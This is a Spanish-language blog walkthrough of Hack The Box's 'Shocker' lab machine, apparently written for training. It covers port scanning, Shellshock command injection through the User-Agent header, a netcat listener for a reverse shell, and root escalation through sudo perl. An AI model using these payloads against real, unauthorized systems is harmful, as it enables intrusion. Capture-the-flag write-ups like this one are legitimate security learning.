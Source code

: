 ```yaml
---
title: Shocker - HTB Writeup
date: 2023-09-06 16:00:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup, HTB, Penetration Testing, Ethical Hacking, Shellshock, CGI, Burp Suite, Perl]
image:
  path: /assets/img/post/shocker/adi-goldstein-EUsVwEOsblE-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Shocker es un máquina de dificultad `Easy` en la plataforma **Hack The Box**

Esta máquina me resulta muy interesante ya que es la primera vez que voy a tocar el exploit `Shellshock`

## **Reconocimiento**

Comenzamos con un escaneo de puertos utilizando `nmap`:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.10.56 -oG allPorts
```

![img](/assets/img/post/shocker/626f4269-71bd-4a1b-a55e-c2b827453f41.png)

Encontramos los puertos `80` y `2222` abiertos, vamos a ver que **servicios** se ejecutan en dichos puertos:

```bash
nmap -sCV -p80,2222 10.10.10.56 -oN versions
```

![img](/assets/img/post/shocker/7e3b09ac-648b-4229-b80d-2c105154baed.png)

Vemos que en el puerto `80` hay un servicio `Apache` y en el `2222` hay un servicio `OpenSSH`

Vamos a ver el puerto `80`, a ver que encontramos:

![img](/assets/img/post/shocker/1f0f0165-25ee-41ae-8baf-7b3b786a9068.png)

No encontramos nada, por lo que vamos a seguir con la **fase de reconocimiento**, a ver si podemos listar algun **directorio o archivo interesante**:

![img](/assets/img/post/shocker/c24da344-a70e-43f5-a53a-404137e1c77a.png)

Encontramos un directorio `cgi-bin`, el cual suele tener cosas interesantes

Si volvemos a enumerar directorios desde esta ruta, nos encontraremos un archivo `user.sh`, el cual al acceder a la ruta junto al archivo, nos hará la descarga automaticamente, lo descargaremos para ver que contiene:

![img](/assets/img/post/shocker/eb179a12-d186-4a41-b0f0-acd32adf742e.png)

Vemos que es un archivo que al ejecutarlo, guarda la hora en la que se ha ejecutado

Si buscamos información podemos encontrar que los archivos `CGI` suelen ser usados para explotar `Shellshock`, así que vamos a realizar la **explotación**

## **Explotación**

Podemos ver en este [repositorio](https://github.com/opsxcq/exploit-CVE-2014-6271) como poder explotar `Shellshock` desde consola, nosotros lo haremos desde **Burpsuite**, aunque al final el resultado es el mismo

Primero vamos a ver si podemos ejecutar el `Shellshock`

```bash
user-agent: () { :; }; echo; echo; /bin/bash -c 'id'"
```

![img](/assets/img/post/shocker/a287c41c-c780-42bb-b2f0-12015947b21b.png)

Como podemos ver, podemos inyectar comandos en el `User-Agent`, vamos a conseguir una `reverse shell`, con el oneline que usamos siempre para ello:

```bash
nc -lvnp 443
```

![img](/assets/img/post/shocker/3f8fb66f-9696-4160-8938-e07203953664.png)

Si nos ponemos en escucha con `nc` por el puerto indicado, conseguiremos **acceso al sistema** y a la **user flag**

![img](/assets/img/post/shocker/fb2428ff-0267-4e82-a421-4e9e9fdae12b.png)

## **Escalada de Privilegios**

Vamos a hacer un pequeño **reconocimiento**, para ver de que manera podemos escalar privilegios

Ejecutando `sudo -l` podemos ver que binarios podemos ejecutar como `root`:

![img](/assets/img/post/shocker/06d78087-6e38-4455-b2dd-91e65d6dbb54.png)

Como vemos podemos ejecutar como `root` el binario `perl`

Por lo tanto vamos a consultar [GTFOBins](https://gtfobins.github.io/) para buscar informacion sobre el binario `perl`

> GTFOBins es un recurso web que nos ayudará muchísimo

Siguiendo los pasos de la web ejecutaremos:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![img](/assets/img/post/shocker/3e8fa848-ab6e-4e04-b9d1-cd40fe6b7c32.png)

Y Bingo! Conseguiremos **acceso** a la máquina como el usuario `root`, y por tanto tambien a la **root flag**

![img](/assets/img/post/shocker/9b6268d5-3382-4ca6-b470-c96c5f9acfc6.png)

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*

